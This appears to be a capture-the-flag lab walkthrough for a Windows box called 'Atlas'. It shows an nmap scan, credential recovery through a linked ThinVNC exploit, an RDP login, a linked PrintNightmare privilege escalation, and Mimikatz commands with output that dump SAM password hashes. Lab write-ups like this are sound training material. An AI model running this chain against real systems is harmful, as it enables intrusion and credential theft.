 # Atlas v1.4

## Enumeration

### NMAP Scan 

Check for running services and open ports.

```bash 
nmap -p- -Pn -sC -sV -A -vv -oN nmap.scan IPaddr
```

I realized after I ran the above command that I didn't need the `-A`. I changed my mind half way through typing it and didn't remove the `-A`.
__*Ports*__
* 3389 Windows RDP
* 8080 ThinVNC

## Exploits

### Access - ThinVNC Exploit
> by Muirland Oracle

https://github.com/MuirlandOracle/CVE-2019-17662

[+] Credentials Found!
Username:       [REDACTED]
Password:       [REDACTED]

Now we can log into the ThinVNC service on port 8080. But since we have credentials, let's move into the Windows native RDP for a better interactive interface. 
```bash
xfreerdp /v:IPaddr /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

### Privilege Escalation - PrintNightmare
> by Caleb Stewart and John Hammond

https://github.com/calebstewart/CVE-2021-1675

### Post Exploitation - Mimikatz

Use this exploit to dump password hashes. Download mimikatz, move mimkatz to the tmp directory, and unzip the archive.
```bash
cd /tmp
mv ~/Downloads/mimikatz_trunk.zip .
unzip mimikatz_trunk.zip
```
Go back to the target computer. In RDP session use the elevated Command Shell to launch the exploit:
```bash
\\tsclient\share\mimikatz_trunk\x64\mimikatz.exe
```

If all goes well you get some nice ASCII art and a new mimikatz prompt. 

Before we run it, we usually need to execute two commands before dumping the hashes:
* `privilege::debug` - this obtains debug privileges which allows us to access other processes for "debuging" purposes.
* `token::elevate` - simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a *right* to do as an administrator, but that is not usually possible using normal Windows operations

There are several commands that can be used to dump the hashes. We will use: `lsadump::sam`.
```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

---

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]
```

